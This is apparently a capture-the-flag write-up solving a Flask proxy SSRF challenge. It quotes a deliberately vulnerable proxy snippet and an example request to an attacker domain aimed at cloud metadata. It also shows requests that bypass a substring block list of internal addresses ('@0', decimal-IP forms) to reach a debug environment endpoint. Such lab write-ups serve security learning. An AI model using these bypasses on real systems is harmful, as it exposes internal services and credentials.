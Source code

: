 ```yaml
---
title: "Proxy Pwn Challenge"
date: 2024-05-21
---
```



Resources 
- https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies
- https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass
# Flask Proxy

A snippet taken straight from the article shows us this

> [!NOTE]
> *My first thought was: "What if the developer forgets to add the last slash in the `SITE_NAME` variable?". And yes, it can lead to an SSRF.*
> 
> *Since Flask also allows any ASCII character after the `@`, it's possible to fetch an arbitrary domain after concatenating the malicious pathname and the destination server.*
> 
> *Please consider the following source code as a reference for the exploitation scenario:*
> 
> ```
> from flask import Flask
> from requests import get
> 
> app = Flask('__main__')
> SITE_NAME = 'https://google.com'
> 
> @app.route('/', defaults={'path': ''})
> @app.route('/<path:path>')
> 
> def proxy(path):
>   return get(f'{SITE_NAME}{path}').content
> 
> if __name__ == "__main__":
>     app.run(threaded=False)
> ```
> 
> *Presented below is an example of an exploitation request:*
> 
> 
> ```
> GET @evildomain.com/ HTTP/1.1
> Host: target.com
> Connection: close
> ```
> 
> *In the following example, I was able to fetch my EC2 metadata:*
> 

# Let's give it a whirl shall we?

Looking at the code we clearly need to reach the `/enviroment` endpoint and it looks to be at the `/debug` route. 

```
GET /?url=@127.0.0.1:1337/debug/environment
```

result

```
HTTP/1.1 403 FORBIDDEN
Server: Werkzeug/3.0.0 Python/3.12.0
Date: Wed, 22 May 2024 04:17:03 GMT
Content-Type: application/json
Content-Length: 24
Connection: close

{"error":"Not Allowed"}
```

As we can see this did not work so searching through the provided files we can see this.

```python
RESTRICTED_URLS = ['localhost', '127.', '192.168.', '10.', '172.']

def is_safe_url(url):
    for restricted_url in RESTRICTED_URLS:
        if restricted_url in url:
            return False
    return True

def is_from_localhost(func):
    @functools.wraps(func)
    def check_ip(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return abort(403)
        return func(*args, **kwargs)
    return check_ip

```

## SSRF URL ByPass

https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass

From this we can try replacing `127.0.0.1` with any of the payloads. Let's try `@0`

```
GET /?url=@0:1337/debug/environment 
```


![Assets/Pasted image 20240521230536.png](https://kickeddroid.github.io/Assets/Pasted%20image%2020240521230536.png)

## PS
Another cool one that worked was 
```
GET /?url=@2130706433:1337/debug/environment
```
